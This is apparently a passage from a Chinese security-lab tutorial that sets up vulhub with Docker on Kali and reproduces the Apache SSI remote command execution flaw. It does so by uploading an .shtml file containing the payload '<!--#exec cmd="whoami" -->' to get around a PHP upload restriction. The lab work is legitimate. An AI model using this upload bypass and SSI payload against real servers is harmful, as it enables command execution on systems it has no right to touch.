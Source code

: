 ## 2.2 实战演练
这里使用vulhub一键搭建漏洞测试靶机
### 2.2.1 vulhub安装
使用的系统：kali
（1）安装docker
```
sudo apt install docker.io
```
（2）安装docker-compose
```
pip install docker-compose
```
（3）查看docker-compose是否安装成功
```
docker-compose -v   有返回则说明安装成功
```
（4）下载vulhub
```
git clone https://github.com/vulhub/vulhub.git
```
（5）添加国内镜像
```
修改或创建配置文件
vim /etc/docker/daemon.json 

内容格式：
{
  "registry-mirrors": ["<your accelerate address>"]
}

常见的国内加速站点（添加其中一个即可）
https://registry.docker-cn.com
http://hub-mirror.c.163.com
https://3laho3y3.mirror.aliyuncs.com
http://f1361db2.m.daocloud.io
https://mirror.ccs.tencentyun.com

添加好之后重启服务
service docker restart
```
### 2.2.2 Apache SSI 远程命令执行漏洞
在测试任意文件上传漏洞的时候，目标服务端可能不允许上传php后缀的文件。如果目标服务器开启了SSI与CGI支持，我们可以上传一个shtml文件，并利用语法执行任意命令。
```
service docker start    启动docker
cd httpd/ssi-rce/   进到靶机环境目录
docker-compose up -d     构建环境
```
![图片](C:\Users\liukaifeng01\Desktop\新建文件夹\kB4iEBRNidoNFGnm.png)
访问kali的ip8080端口

这里我们是无法上传正常的PHP，所以就上传个构造好的shtml文件![图片](C:\Users\liukaifeng01\Desktop\新建文件夹\SmLqa6VkfhMflauz.png)
```
<!--#exec cmd="whoami" -->
```
上传后，访问
![图片](C:\Users\liukaifeng01\Desktop\新建文件夹\MuVH29LcolYYpW7a.png)
![图片](C:\Users\liukaifeng01\Desktop\新建文件夹\UQWLqvW8bk48OtJX.png)
